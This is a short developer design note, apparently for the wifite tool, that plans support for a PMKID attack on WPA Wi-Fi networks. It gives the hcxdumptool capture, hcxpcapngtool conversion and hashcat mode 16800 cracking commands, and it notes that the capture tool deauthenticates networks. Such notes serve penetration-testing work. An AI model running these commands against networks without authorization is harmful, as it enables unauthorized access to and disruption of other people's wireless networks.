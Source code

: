 ### PMKID Attack

See https://hashcat.net/forum/thread-7717.html

### Steps

1. Start `hcxdumptool` (daemon)
   * `sudo hcxdumptool -i wlan1mon -o pmkid.pcapng -t 10 --enable_status=1`
   * Should also use `-c <channel>`, `--filterlist` and `--filtermode` to target a specific client
   * Could be a new attack type: `wifite.attack.pmkid`
2. Detect when PMKID is found.
   * `hcxpcapngtool -z pmkid.16800 pmkid.pcapng`
   * Single-line in pmkid.16800 will have PMKID, MACAP, MACStation, ESSID (in hex).
3. Save `.16800` file (to `./hs/`? or `./pmkids/`?)
   * New result type: `pmkid_result`
   * Add entry to `cracked.txt`
4. Run crack attack using hashcat:
   * `./hashcat64.bin --force -m 16800 -a0 -w2 path/to/pmkid.16800 path/to/wordlist.txt`

### Problems

* Requires latest hashcat to be installed. This might be in a different directory.
   * Use can specify path to hashcat? Yeck...
   * % hashcat -h | grep 16800
   * 16800 | WPA-PMKID-PBKDF2
* If target can't be attacked... we need to detect this failure mode.
   * Might need to scrape `hcxdumptool`'s output
   * Look at `pmkids()` func in .bashrc
   * hcxpcapngtool -z OUTPUT.16800 INPUT.pcapng > /dev/null
   * Check OUTPUT.16800 for the ESSID.
* Wireless adapter support is minimal, apparently.
* hcxdumptool also deauths networks and captures handshakes... maybe unnecessarily

